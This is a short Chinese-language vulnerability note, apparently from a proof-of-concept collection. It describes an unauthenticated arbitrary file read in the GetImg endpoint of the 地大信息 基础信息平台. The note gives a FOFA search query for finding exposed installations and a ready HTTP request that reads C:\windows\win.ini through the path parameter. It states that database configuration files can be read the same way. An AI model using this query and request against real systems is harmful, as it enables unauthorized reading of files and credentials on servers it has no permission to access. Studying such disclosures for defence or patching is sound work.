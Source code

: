 # 地大信息-基础信息平台GetImg任意文件读取漏洞

地大信息-基础信息平台 GetImg 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取文件、数据库配置文件等等。

## fofa

```javascript
body="/SystemManage/BaseProject" || title=="基础信息平台"
```

## poc

```javascript
GET /SystemManage/BaseProject/GetImg?path=C:\windows\win.ini HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Connection: close
```

![image-20240918135731789](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409181357847.png)